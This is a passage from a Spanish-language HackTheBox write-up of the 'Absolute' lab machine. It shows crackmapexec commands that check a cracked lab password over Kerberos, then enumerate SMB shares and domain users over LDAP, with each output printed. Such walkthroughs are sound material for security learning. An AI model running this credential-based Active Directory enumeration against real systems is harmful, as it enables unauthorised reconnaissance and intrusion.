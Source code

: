 - Si nos autenticamos con el protocolo de `kerberos` nos dicen que si son correctas.

<p align="center">
<img src="/assets/hackthebox/img/machines/insane/absolute/3.png">
</p>

```bash
➜  content cme smb 10.10.11.181 -u 'D.Klay' -p 'Darkmoonsky248girl' -k
SMB         10.10.11.181    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.181    445    DC               [+] absolute.htb\D.Klay:Darkmoonsky248girl
```

## svc_smb

- Como por `kerberos` las credenciales son correctas podemos enumerar por el protocolo `smb` recursos compartidos. 

```bash
➜  content crackmapexec smb 10.10.11.181 -u 'D.Klay' -p 'Darkmoonsky248girl' -k --shares
SMB         10.10.11.181    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.181    445    DC               [+] absolute.htb\D.Klay:Darkmoonsky248girl
SMB         10.10.11.181    445    DC               [+] Enumerated shares
SMB         10.10.11.181    445    DC               Share           Permissions     Remark
SMB         10.10.11.181    445    DC               -----           -----------     ------
SMB         10.10.11.181    445    DC               ADMIN$                          Remote Admin
SMB         10.10.11.181    445    DC               C$                              Default share
SMB         10.10.11.181    445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.181    445    DC               NETLOGON        READ            Logon server share
SMB         10.10.11.181    445    DC               Shared
SMB         10.10.11.181    445    DC               SYSVOL          READ            Logon server share
```

- Bueno no hay nada interesante algo que podemos hacer es usar el protocolo `ldap` para enumerar usuarios del dominio mediante al autenticación de `kerberos`.

```bash
➜  content crackmapexec ldap 10.10.11.181 -u 'D.Klay' -p 'Darkmoonsky248girl' -k --users
SMB         10.10.11.181    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.181    389    DC               [+] absolute.htb\D.Klay:Darkmoonsky248girl
LDAP        10.10.11.181    389    DC               [*] Total of records returned 20
LDAP        10.10.11.181    389    DC               Administrator                  Built-in account for administering the computer/domain
LDAP        10.10.11.181    389    DC               Guest                          Built-in account for guest access to the computer/domain
LDAP        10.10.11.181    389    DC               krbtgt                         Key Distribution Center Service Account
LDAP        10.10.11.181    389    DC               J.Roberts
LDAP        10.10.11.181    389    DC               M.Chaffrey
```